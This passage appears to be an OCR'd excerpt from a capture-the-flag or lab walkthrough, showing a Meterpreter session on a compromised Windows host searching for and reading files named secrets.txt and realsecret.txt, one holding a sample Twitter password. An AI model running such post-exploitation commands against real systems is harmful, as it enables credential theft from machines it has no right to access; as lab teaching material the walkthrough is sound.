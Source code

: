 **Searching for Files**

```bash
meterpreter > search -f secrets.txt
Found 1 result...
=================

Path                                                            Size (bytes)  Modified (UTC)
----                                                            ------------  --------------
c:\Program Files (x86)\Windows Multimedia Platform\secrets.txt  35            2021-07-30 08:44:27 +0100

meterpreter > cd Windows\ Multimedia\ Platform\\
meterpreter > dir
Listing: C:\Program Files (x86)\Windows Multimedia Platform
===========================================================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100666/rw-rw-rw-  35     fil   2021-07-30 08:44:27 +0100  secrets.txt
100666/rw-rw-rw-  40432  fil   2018-09-15 08:12:04 +0100  sqmapi.dll

meterpreter > cat secrets.txt 
My Twitter password is KDSvbsw3849!
meterpreter > search -f realsecret.txt
Found 1 result...
=================

Path                               Size (bytes)  Modified (UTC)
----                               ------------  --------------
c:\inetpub\wwwroot\realsecret.txt  34            2021-07-30 09:30:24 +0100
meterpreter > cat ../../inetpub/wwwroot/realsecret.txt
The Flash is the fastest man alive

```
